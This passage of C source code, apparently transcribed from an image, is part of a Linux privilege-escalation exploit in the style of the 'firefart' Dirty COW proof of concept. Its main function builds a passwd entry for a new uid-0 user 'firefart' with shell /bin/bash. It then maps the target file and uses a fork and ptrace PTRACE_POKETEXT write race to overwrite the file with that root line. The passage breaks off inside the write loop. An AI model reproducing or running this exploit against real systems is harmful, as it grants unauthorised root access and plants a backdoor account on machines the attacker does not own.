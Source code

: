 ```c

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
```